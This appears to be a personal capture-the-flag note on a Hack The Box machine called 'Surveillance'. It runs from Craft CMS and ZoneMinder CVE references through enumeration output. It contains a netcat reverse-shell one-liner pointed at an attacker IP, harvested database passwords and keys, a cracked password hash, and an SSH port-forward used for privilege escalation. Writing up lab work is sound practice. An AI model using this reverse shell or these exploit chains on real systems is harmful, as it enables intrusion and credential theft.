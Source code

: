 COMMON
-----
https://github.com/y3rb1t4/htb-arg/blob/main/00-my-notes/shell-interactive.md


USER FLAG
-----
OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)

HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 12 Feb 2024 02:27:22 GMT
Content-Type: text/html
Content-Length: 154
Connection: keep-alive
Location: http://surveillance.htb/
Powered by Craft CMS

CVE-2023-41892
https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.137 4444 >/tmp/f
user: matthew
user: zoneminder
ports: 22, 8080, 3306

/usr/share/zoneminder/www/api/app/Config/database.php:          'password' => 'ZoneMinderP│
assword2023',                                                                             │
/usr/share/zoneminder/www/api/app/Config/database.php:          'password' => ZM_DB_PASS, │
/usr/share/zoneminder/www/includes/config.php:  'Password'  => '',

-rw-r--r-- 1 root root 22864 Feb 12 19:41 /var/log/nginx/access.log                                                                                                                 
-rw-r--r-- 1 root root 87 Feb 12 19:41 /var/log/zm/access.log

-rw-r--r-- 1 root zoneminder 5265 Nov 18  2022 /usr/share/zoneminder/www/ajax/modals/storage.php                                                                                    
-rw-r--r-- 1 root zoneminder 1249 Nov 18  2022 /usr/share/zoneminder/www/includes/actions/storage.php                                                                               

-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php                                                                                                       
                'user' => 'zmuser',                    

                'host' => 'localhost',                                                                                                                                              
                'password' => 'ZoneMinderPassword2023',                                                                                                                             
                'database' => 'zm',                                                                                                            
-rw-r--r-- 1 root zoneminder 11257 Nov 18  2022 /usr/share/zoneminder/www/includes/database.php

CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7                                         
CRAFT_ENVIRONMENT=production                                            
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_                                                
CRAFT_DB_DRIVER=mysql                                                  
CRAFT_DB_SERVER=127.0.0.1                               
CRAFT_DB_PORT=3306                                                
CRAFT_DB_DATABASE=craftdb                                                
CRAFT_DB_USER=craftuser                                                
CRAFT_DB_PASSWORD=CraftCMSPassword2023!                                                    
CRAFT_DB_SCHEMA=                                                
CRAFT_DB_TABLE_PREFIX=                                                     
DEV_MODE=false                                                 
ALLOW_ADMIN_CHANGES=false                                             
DISALLOW_ROBOTS=false                                                     
PRIMARY_SITE_URL=http://surveillance.htb/

39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec
https://hashes.com/en/tools/hash_identifier
https://md5decrypt.net/en/Sha256/
starcraft122490

ROOT FLAG
-----
/usr/share/zoneminder
https://phoenixnap.com/kb/ssh-port-forwarding

ssh -L 1111:127.0.0.1:8080 matthew@surveillance.htb

matthew@surveillance:/usr/share/zoneminder/www/api/app/Config$ cat *.php | grep -i "Version"
Configure::write('ZM_VERSION', '1.36.32');
Configure::write('ZM_API_VERSION', '1.36.32.1');

https://github.com/rvizx/CVE-2023-26035

Investigate: 
zmaudit.pl
zmcontrol.pl
zmdc.pl
zmfilter.pl
zmonvif-probe.pl
zmonvif-trigger.pl
zmpkg.pl
zmmrecover.pl
zmstats.pl
zmsystemctl.pl
zmtelemetry.pl
zmtrack.pl
zmtrigger.pl
zmupdate.pl
zmvideo.pl
zmwatch.pl